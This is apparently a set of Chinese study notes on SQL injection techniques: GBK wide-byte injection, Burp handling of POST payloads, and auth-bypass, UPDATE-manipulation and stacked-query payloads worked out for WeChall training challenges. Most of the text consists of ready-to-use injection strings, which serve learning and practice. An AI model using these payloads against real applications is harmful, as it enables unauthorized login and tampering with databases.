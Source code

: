 ## 宽字节注入

小知识:
对’ \ 屏蔽，前面多加个
数据库用的是gbk编码，会把2个字符当作一个汉字

?id=1%df'

### post类

burp抓包
在目标位置admin%df%27 union select 1,2 #
把%df%27框起来，右键-convert selection-url–url decode

因为GET会自动把数据进行url解码，post不会把数据进行url解码，所以我们需要手工操作

------

http://www.wechall.net/challs

http://www.wechall.net/challenge/training/mysql/auth_bypass1/index.php

http://www.wechall.net/challenge/training/mysql/auth_bypass2/index.php

```
SELECT * FROM users WHERE username='$username' AND password='$password'

SELECT * FROM users WHERE username=' admin' or '1'='1 ' AND password=' 123 '

SELECT * FROM users WHERE username='$username'

SELECT * FROM users WHERE username=' x' union select 1,'admin',md5('haha') #'

所以用户名输入
x' union select 1,'admin',md5('haha') #
密码haha
```

http://www.wechall.net/challenge/no_escape/index.php

```
UPDATE noescvotes SET `$who`=`$who`+1 WHERE id=1

bill`=111,`george`=`george

UPDATE noescvotes SET `bill`=111,`george`=`george`=`bill`=111,`george`=`george`+1 WHERE id=1
```

## 堆叠注入

```
select * from table1;insert into table1(id,username,password,job)values(99,'user99','mima99','job99') --+
```

## XSS
